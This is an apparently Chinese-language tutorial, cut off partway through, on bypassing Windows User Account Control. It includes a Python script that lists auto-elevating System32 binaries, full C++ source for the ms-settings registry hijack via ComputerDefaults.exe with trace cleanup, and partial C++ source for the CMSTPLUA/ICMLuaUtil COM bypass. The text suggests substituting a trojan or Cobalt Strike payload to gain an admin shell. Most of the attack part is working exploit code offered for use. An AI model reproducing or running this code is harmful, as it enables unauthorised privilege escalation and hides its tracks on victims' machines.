






# 什么是UAC

UAC，全称为User Account Control（用户账户控制），是Windows Vista及后续版本中的一个安全组件。它的设计目的是防止潜在的破坏性操作——特别是那些可能对系统配置产生影响的操作——在不经过管理员授权的情况下执行。

UAC通过在执行可能需要管理员权限的任务时弹出提示窗口，要求用户确认操作或者输入管理员账户的密码，从而实现对可能的危险行为的监控和控制。这个特性使得恶意软件在未经用户许可的情况下更难以在系统中执行危险的操作，提高了系统的安全性

在Visual Studio中，你可以通过修改项目的manifest文件来配置User Account Control（用户账户控制，UAC）设置。这个文件是一个XML文件，它定义了应用程序的配置属性，其中一个属性就是UAC设置

- `asInvoker`：这是默认值。当这个值被设置时，应用程序会以启动它的用户的权限运行。如果应用程序被普通用户启动，它将会以普通权限运行；如果应用程序被管理员启动，它将以管理员权限运行。
- `highestAvailable`：当这个值被设置时，应用程序会尽可能地获取最高权限。如果应用程序被管理员启动，它将会以管理员权限运行；如果应用程序被普通用户启动，它将以普通权限运行。
- `requireAdministrator`：当这个值被设置时，应用程序总是以管理员权限运行。如果应用程序被普通用户启动，UAC会弹出一个对话框，要求用户输入管理员账户的密码

	


# Uac白名单挖掘

## 介绍

UAC（User Account Control）白名单挖掘是一种常见的权限提升技术，其基本思想是寻找可以在无UAC提示的情况下以管理员权限运行的应用程序。许多这样的程序会对其启动参数进行不够严格的检查，使得攻击者可以通过在启动参数中包含恶意代码，来使得这些程序在启动的同时执行这些恶意代码，从而实现权限提升

特别地，由于Windows中的许多设置应用程序（例如`ComputerDefaults.exe`、`fodhelper.exe`等）在设计时需要考虑到在UAC开启的情况下仍能正常工作，所以它们在manifest文件中常常会设置`autoElevate`为`true`，这意味着这些应用程序会在启动时自动提升至管理员权限，而且不会出现UAC提示

攻击者可能会尝试修改某些注册表键（例如`HKCU\Software\Classes\ms-settings\Shell\Open\command`）来劫持这些协议处理程序，以使得当这些应用程序被启动时，他们指定的恶意代码也会被以管理员权限执行，从而实现权限提升。因此，这些键值是UAC白名单挖掘的常见目标


## 所需工具

- **Sigcheck**工具是一个由Sysinternals提供的命令行实用程序，用于对Windows二进制文件（如.exe，.dll，.sys等）进行签名验证，并显示文件版本信息，证书链等。其下载地址: https://download.sysinternals.com/files/Sigcheck
- **Process Monitor** 是由 Windows Sysinternals 提供的一款高级监视工具，它可以实时监控 Windows 文件系统、注册表和进程/线程活动。其下载地址：https://docs.microsoft.com/en-us/sysinternals/downloads/procmon


## 白名单的筛选条件

我们正在寻找满足以下几个条件的白名单程序：

- 程序的 `manifest` 文件中的 `autoElevate` 属性必须配置为 `true`，这允许程序在无需用户干预的情况下自动获取提升的权限。
- 程序执行时不能弹出 UAC（用户账户控制）对话框，这确保了程序的无缝执行，不会因 UAC 对话框的出现而中断用户的工作流。
- 程序需要能够查询注册表中的 `Shell\Open\command` 键。这是因为 `shell\open\command` 键值通常用于存储特定类型的可执行程序文件路径。当这种特定类型的程序运行时，系统会在注册表中查找并执行对应的 `shell\open\command` 键值中指定的程序。这一属性允许我们通过改变该键值中的程序路径，将我们所需的程序插入到某些特定的系统操作中


## 挖掘步骤

### 1.`autoElevate`值为true

使用sigcheck工具查看可执行程序的相关信息，如下图所示可以看到名为`autoElevate`的标签，当其被设置为true时，它表示该应用程序在启动时会自动请求和获取管理员权限，前提是当前的用户账户有管理员权限

> Sigcheck工具的-m选项用于显示二进制文件的描绘符。一个描绘符是一个可执行文件或DLL的XML文件，其中包含有关应用程序的信息。这些信息可以包括应用程序的名称，它的版本，它需要的特权等等

```
.\sigcheck64.exe -m C:\windows\system32\ComputerDefaults.exe
```


根据以上思路，我们可以使用以下python代码来筛选出可用的白名单程序。此脚本首先获取 `C:\\Windows\\System32` 目录及其子目录下所有 `.exe` 文件，然后对每个 `.exe` 文件检查其是否具有 `autoElevate` 属性，如果有则将文件名写入到 `success.txt` 文件中

```cpp
import os
import subprocess

def get_exe_files(path):
    exe_files = []
    for root, dirs, files in os.walk(path):
        for file in files:
            if os.path.splitext(file)[1] == '.exe':
                exe_files.append(os.path.join(root, file))
    return exe_files

def check_auto_elevate(exe_files):
    success_files = []
    for file in exe_files:
        command = r'.\sigcheck64.exe -m {} | findstr auto'.format(file)
        try:
            result = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
            if '<autoElevate>true</autoElevate>' in result.stdout.decode('gb2312'):
                print('[+] {}'.format(file))
                success_files.append(file)
        except Exception as e:
            print('Error when processing file {}: {}'.format(file, str(e)))
    return success_files

def main():
    path = 'C:\\Windows\\System32'
    print('Getting .exe files in {}...'.format(path))
    exe_files = get_exe_files(path)
    print('Checking auto elevate property for each file...')
    success_files = check_auto_elevate(exe_files)
    with open('WhiteList.txt', 'w') as f:
        for file in success_files:
            f.write('{}\n'.format(file))
    print('Done. Found {} files with auto elevate property.'.format(len(success_files)))

if __name__ == '__main__':
    main()

```


运行上述python代码后，会在其目录下生成一个WhiteList.txt文本文件，用于存放白名单程序的绝对路径，其文本内容如下：

```cpp
C:\Windows\System32\bthudtask.exe
C:\Windows\System32\changepk.exe
C:\Windows\System32\ComputerDefaults.exe
C:\Windows\System32\dccw.exe
C:\Windows\System32\dcomcnfg.exe
C:\Windows\System32\DeviceEject.exe
C:\Windows\System32\DeviceProperties.exe
C:\Windows\System32\djoin.exe
C:\Windows\System32\easinvoker.exe
C:\Windows\System32\EASPolicyManagerBrokerHost.exe
C:\Windows\System32\eudcedit.exe
C:\Windows\System32\eventvwr.exe
C:\Windows\System32\fodhelper.exe
C:\Windows\System32\fsquirt.exe
C:\Windows\System32\FXSUNATD.exe
C:\Windows\System32\immersivetpmvscmgrsvr.exe
C:\Windows\System32\iscsicli.exe
C:\Windows\System32\iscsicpl.exe
C:\Windows\System32\lpksetup.exe
C:\Windows\System32\MSchedExe.exe
C:\Windows\System32\msconfig.exe
C:\Windows\System32\msra.exe
C:\Windows\System32\MultiDigiMon.exe
C:\Windows\System32\newdev.exe
C:\Windows\System32\odbcad32.exe
C:\Windows\System32\PasswordOnWakeSettingFlyout.exe
C:\Windows\System32\recdisc.exe
C:\Windows\System32\rrinstaller.exe
C:\Windows\System32\shrpubw.exe
C:\Windows\System32\slui.exe
C:\Windows\System32\SystemPropertiesAdvanced.exe
C:\Windows\System32\SystemPropertiesComputerName.exe
C:\Windows\System32\SystemPropertiesDataExecutionPrevention.exe
C:\Windows\System32\SystemPropertiesHardware.exe
C:\Windows\System32\SystemPropertiesPerformance.exe
C:\Windows\System32\SystemPropertiesProtection.exe
C:\Windows\System32\SystemPropertiesRemote.exe
C:\Windows\System32\SystemSettingsAdminFlows.exe
C:\Windows\System32\SystemSettingsRemoveDevice.exe
C:\Windows\System32\Taskmgr.exe
C:\Windows\System32\tcmsetup.exe
C:\Windows\System32\TpmInit.exe
C:\Windows\System32\WindowsUpdateElevatedInstaller.exe
C:\Windows\System32\WSReset.exe
C:\Windows\System32\wusa.exe
C:\Windows\System32\Sysprep\sysprep.exe
```


这里还需注意一点，有个别程序会弹出uac框的，例如changepk.exe，这个程序在windows11不会弹uac，但是在windows10会弹uac

	


### 2.调用`Shell\Open\command`键

打开`ProcessMonitor`捕捉`ComputerDefaults.exe`的运行信息，在Filter工具栏设置`Process Name`为`ComputerDefaults.exe`，`Result`设置为`NAME NOT FOUND`

	

	


随后运行`ComputerDeafaults`，`ProcessMonitor`立马会显示关于此程序的相关信息



​			

注意此路径`HKCU\Software\Classes\ms-settings\Shell\Open\command`, 这行的操作是`RegOpenKey`，表示打开注册表的一个键

> 在注册表中，键相当于目录，它们可以包含其他键（相当于子目录）或键值（相当于文件）。一个键通常不直接包含数据，数据是存储在键值中的

	


打开注册表，新建上述的键`ms-settings\Shell\Open\command`

	


再用`ProcessMonitor`捕捉`ComputerDefaults`的信息，发现它还会去查询`DelegateExecute`键值，操作为`RegQueryValue`，表示查询注册表的键值

> 在注册表中，键值是存储实际数据的地方，例如，可以在一个键值中存储一个字符串、一个数字或一个二进制数据




在注册表对应的键中添加个键值为`DelegateExecute`，并将此目录的默认键值设为`cmd.exe`

> Windows注册表中，每个键下面都有一个被称为“默认”或“(默认)”的键值。你可以将其视为该键的默认数据。当你访问一个键而不指定键值的名称时，将返回此默认键值的数据

	


再次运行ComputerDefaults，会弹出系统管理员权限的cmd，也就是说如果我们将cmd.exe替换成shellcode木马的路径，那么就能获得管理员权限的shell




## 总结

由此我们可以总结，在执行ComputerDefaults.exe程序之前，系统会首先检查注册表路径`HKCU:\Software\Classes\ms-settings\shell\open\command`是否存在。如果存在，系统将继续搜索同一目录下是否存在DelegateExecute键值对。

只有在这两个条件都满足的情况下，系统才会执行由`HKCU:\Software\Classes\ms-settings\shell\open\command`路径所指向的exe文件	

还有一点，为何要找HKCU(HKEY_CURRENT_USER)目录下的键值对呢？因为HKCU下的注册表键值不需要管理员权限。HKCU 包含当前登录用户配置信息，每个用户都有其自己的 HKCU，其中的设置可以被用户自由修改，通常不需要额外的管理员权限


# 修改注册表BypassUAC

## 实现思路

### 1.创建新键

在 `HKEY_CURRENT_USER\Software\Classes` 注册表路径下创建一个名为 `ms-settings\shell\open\command` 的新键（如果该键已存在则打开它）

```cpp
// 创建或打开注册表键
    if (RegCreateKeyEx(HKEY_CURRENT_USER, subKey, 0, NULL, 0, KEY_WRITE, NULL, &hKey, NULL) != ERROR_SUCCESS) {
        std::cerr << "Unable to create or open registry key\n";
        return false;
    }
```


### 2.创建键值

在刚刚创建的键下，创建一个名为 `DelegateExecute` 的键值，并将其设置为空字符串

```cpp
// 添加 "DelegateExecute" 键值
    if (RegSetValueEx(hKey, valueName, 0, REG_SZ, (const BYTE*)"", sizeof("")) != ERROR_SUCCESS) {
        std::cerr << "Unable to set registry value\n";
        RegCloseKey(hKey);
        return false;
    }
```


### 3.设置键的默认键值

设置 `ms-settings\shell\open\command` 键的默认键值为 `filename` 变量，这里是 `"cmd.exe"`

```cpp
// 设置默认键值为 "calc.exe"
    if (RegSetValueEx(hKey, NULL, 0, REG_SZ, (const BYTE*)filename, strlen(filename) + 1) != ERROR_SUCCESS) {
        std::cerr << "Unable to set default registry value\n";
        RegCloseKey(hKey);
        return false;
    }
```


### 4.启动进程

使用 `CreateProcess` 函数启动新的进程来执行 `"C://windows//system32//cmd.exe"` 这个命令，命令参数是 `/c C://windows//system32//computerdefaults.exe`。当这个命令执行时，它实际上会通过 `ms-settings\shell\open\command` 注册表键执行 `cmd.exe`，因为此键的默认键值被设置为 `cmd.exe`。这个过程就是用户账户控制（UAC）的绕过

```cpp
STARTUPINFO si;  //进程启动信息
	PROCESS_INFORMATION pi;  //进程信息
	ZeroMemory(&si, sizeof(si));  //将结构体si的所有成员都初始化为0
	ZeroMemory(&pi, sizeof(pi));  //将结构体pi的所有成员都初始化为0
	si.cb = sizeof(si);  //结构体大小

	if (!CreateProcess(
		"C://windows//system32//cmd.exe",  //要执行的应用程序名称（包含路径）
		(LPSTR)"/c C://windows//system32//computerdefaults.exe",  //命令行参数
		NULL,  //进程句柄不可被继承
		NULL,  //线程句柄不可被继承
		FALSE,  //不继承句柄
		0,  //标志位为0
		NULL,  //使用父进程的环境变量
		NULL,  //使用父进程的工作目录
		&si,  //传递启动信息
		&pi)  //传递进程信息
		) {
		printf("CreateProcess failed (%d).\n", GetLastError());  //打印错误信息
		return 0;
	}

	//释放进程句柄和线程句柄
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
```


### 5.清理痕迹

为了清理痕迹，程序等待一段时间后删除 `HKEY_CURRENT_USER\Software\Classes\ms-settings` 键，删除所有刚刚创建的键和键值

```cpp
Sleep(1000);

//删除整个ms-settings目录
if (RegDeleteTree(HKEY_CURRENT_USER,"Software\\Classes\\ms-settings") != ERROR_SUCCESS)
{
    printf("RegDeleteTree Error:%d", GetLastError());
    return false;
}
system("pause");
```


## 完整代码

```cpp
// BypassUac.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。

#include <iostream>
#include <Windows.h>

BOOL BypassUac(const char* filename) {
    HKEY hKey;
    const char* subKey = "Software\\Classes\\ms-settings\\shell\\open\\command";
    const char* valueName = "DelegateExecute";

    // 创建或打开注册表键
    if (RegCreateKeyEx(HKEY_CURRENT_USER, subKey, 0, NULL, 0, KEY_WRITE, NULL, &hKey, NULL) != ERROR_SUCCESS) {
        std::cerr << "Unable to create or open registry key\n";
        return false;
    }

    // 添加 "DelegateExecute" 键值
    if (RegSetValueEx(hKey, valueName, 0, REG_SZ, (const BYTE*)"", sizeof("")) != ERROR_SUCCESS) {
        std::cerr << "Unable to set registry value\n";
        RegCloseKey(hKey);
        return false;
    }

    // 设置默认键值为 "calc.exe"
    if (RegSetValueEx(hKey, NULL, 0, REG_SZ, (const BYTE*)filename, strlen(filename) + 1) != ERROR_SUCCESS) {
        std::cerr << "Unable to set default registry value\n";
        RegCloseKey(hKey);
        return false;
    }

	STARTUPINFO si;  //进程启动信息
	PROCESS_INFORMATION pi;  //进程信息
	ZeroMemory(&si, sizeof(si));  //将结构体si的所有成员都初始化为0
	ZeroMemory(&pi, sizeof(pi));  //将结构体pi的所有成员都初始化为0
	si.cb = sizeof(si);  //结构体大小

	if (!CreateProcess(
		"C://windows//system32//cmd.exe",  //要执行的应用程序名称（包含路径）
		(LPSTR)"/c C://windows//system32//computerdefaults.exe",  //命令行参数
		NULL,  //进程句柄不可被继承
		NULL,  //线程句柄不可被继承
		FALSE,  //不继承句柄
		0,  //标志位为0
		NULL,  //使用父进程的环境变量
		NULL,  //使用父进程的工作目录
		&si,  //传递启动信息
		&pi)  //传递进程信息
		) {
		printf("CreateProcess failed (%d).\n", GetLastError());  //打印错误信息
		return 0;
	}

	//释放进程句柄和线程句柄
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);

	Sleep(1000);
	
	//删除整个ms-settings目录
	if (RegDeleteTree(HKEY_CURRENT_USER,"Software\\Classes\\ms-settings") != ERROR_SUCCESS)
	{
		printf("RegDeleteTree Error:%d", GetLastError());
		return false;
	}
	system("pause");
}


int main()
{   
    const char* filename = "cmd.exe";
	BypassUac(filename);
}
```


## 运行测试

执行程序后返回一个管理员权限的cmd				


如果我们将cmd.exe替换成cs木马的地址，那么cs就会以管理员权限上线




# 通过Com组件BypassUAC

## 什么是Com组件

COM（Component Object Model）是微软提出的一种软件组件体系结构，广泛应用于Windows操作系统。它允许开发人员创建可重用的对象，这些对象能够在多个程序或项目中交互。COM是一种语言无关的技术，意味着可以用多种编程语言创建和使用COM对象。下面是COM的一些主要特点和概念：

### 1.对象和接口

- **对象**：在COM中，对象是具体实现，它们包含数据和操作这些数据的代码。对象通常是由类实例化而成。
- **接口**：接口是一组相关函数的集合，它定义了对象的行为。接口是与对象分离的，这意味着多个对象可以实现同一个接口。


### 2.类ID和接口ID

- **类ID (CLSID)**：每个COM对象都有一个唯一的CLSID，用于在系统中标识对象。
- **接口ID (IID)**：每个接口都有一个唯一的IID，用于识别接口。


### 3.COM库和函数

COM提供了一系列库和函数来支持对象的创建、管理和通信

例如使用`CoCreateInstance` 和`CoInitialize`函数来创建COM对象和初始化COM库


### 4.注册与发现

COM对象通常在注册表中注册，这样客户端程序就可以发现和创建对象


## 实现思路

在COM组件中有一个名为`ICMLuaUtil`的接口，该接口提供了一个名为`ShellExec`的函数，它可以启动具有更高权限的进程


### 1.创建高权限COM对象

首先定义了一个`CoCreateInstanceAsAdmin`的函数，该函数使用了COM的`CoGetObject`方法来尝试以管理员权限创建COM对象并返回`ICMLuaUtil`接口的指针

```cpp
// 以管理员权限创建COM对象 
HRESULT CoCreateInstanceAsAdmin(HWND hwnd, REFCLSID rclsid, REFIID riid, __out void** ppv)
{

	BIND_OPTS3 bo;
	WCHAR  wszCLSID[50];
	WCHAR  wszMonikerName[300];

    // 将CLSID转换为字符串
	StringFromGUID2(rclsid, wszCLSID, sizeof(wszCLSID) / sizeof(wszCLSID[0]));
	
    // 构造Moniker字符串，用于指定要以管理员权限创建或获取的对象
    // Moniker字符串包含了必要的信息来定位和激活COM对象
    HRESULT hr = StringCchPrintf(wszMonikerName, sizeof(wszMonikerName) / sizeof(wszMonikerName[0]), L"Elevation:Administrator!new:%s", wszCLSID);
	if (FAILED(hr))
		return hr;
	
    // 初始化BIND_OPTS3结构
    memset(&bo, 0, sizeof(bo));
	bo.cbStruct = sizeof(bo);
	bo.hwnd = hwnd;
	bo.dwClassContext = CLSCTX_LOCAL_SERVER;

    // 使用CoGetObject和构造的Moniker字符串来获取或创建COM对象
    // 如果对象不存在，Moniker机制可能会触发对象的创建
    // 函数返回获取的接口指针
	return CoGetObject(wszMonikerName, &bo, riid, ppv);
}
```


### 2.调用ShellExec方法

在`CMLuaUtilBypassUAC`函数中，创建了高权限的COM对象并调用其`ICMLuaUtil`接口的`ShellExec`方法，以此启动高权限的进程

```cpp
// 绕过UAC的函数
BOOL CMLuaUtilBypassUAC(LPWSTR lpwszExecutable, LPCTSTR szArg)
{   
	HRESULT hr = 0;  
	CLSID clsidICMLuaUtil = { 0 };
	IID iidICMLuaUtil = { 0 };
	ICMLuaUtil* CMLuaUtil = NULL;
	BOOL bRet = FALSE;

    // 将字符串转换成CLSID和IID
	CLSIDFromString(CLSID_CMSTPLUA, &clsidICMLuaUtil);
	IIDFromString(IID_ICMLuaUtil, &iidICMLuaUtil);

    // 创建具有管理员权限的COM对象
	CoCreateInstanceAsAdmin(NULL, clsidICMLuaUtil, iidICMLuaUtil, (PVOID*)(&CMLuaUtil));
	
    // 调用COM对象中的ICMLuaUtil接口的ShellExec方法
    hr = CMLuaUtil->lpVtbl->ShellExec(CMLuaUtil, lpwszExecutable, szArg, NULL, 0, SW_SHOW);
	CMLuaUtil->lpVtbl->Release(CMLuaUtil);
    
	if (GetLastError())
	{
		return FALSE;
	}
	else {
		return TRUE;
	}
}
```


## 完整代码

```cpp
#include "windows.h"
#include <objbase.h>
#include <strsafe.h>


// 定义用于创建COM对象的CLSID和IID
#define CLSID_CMSTPLUA                     L"{3E5FC7F9-9A51-4367-9063-A120244FBEC7}"
#define IID_ICMLuaUtil                     L"{6EDD6D74-C007-4E75-B76A-E5740995E24C}"

// 定义ICMLuaUtil接口及其方法
typedef interface ICMLuaUtil ICMLuaUtil;

typedef struct ICMLuaUtilVtbl {
    BEGIN_INTERFACE
    
    // 以下都是接口方法的定义
    HRESULT(STDMETHODCALLTYPE* QueryInterface)(
        __RPC__in ICMLuaUtil* This,
        __RPC__in REFIID riid,
        _COM_Outptr_  void** ppvObject);

    ULONG(STDMETHODCALLTYPE* AddRef)(
        __RPC__in ICMLuaUtil* This);

    ULONG(STDMETHODCALLTYPE* Release)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* Method1)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* Method2)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* Method3)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* Method4)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* Method5)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* Method6)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* ShellExec)(
        __RPC__in ICMLuaUtil* This,
        _In_     LPCWSTR lpFile,
        _In_opt_  LPCTSTR lpParameters,
        _In_opt_  LPCTSTR lpDirectory,
        _In_      ULONG fMask,
        _In_      ULONG nShow
        );

    HRESULT(STDMETHODCALLTYPE* SetRegistryStringValue)(
        __RPC__in ICMLuaUtil* This,
        _In_      HKEY hKey,
        _In_opt_  LPCTSTR lpSubKey,
        _In_opt_  LPCTSTR lpValueName,
        _In_      LPCTSTR lpValueString
        );

    HRESULT(STDMETHODCALLTYPE* Method9)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* Method10)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* Method11)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* Method12)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* Method13)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* Method14)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* Method15)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* Method16)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* Method17)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* Method18)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* Method19)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* Method20)(
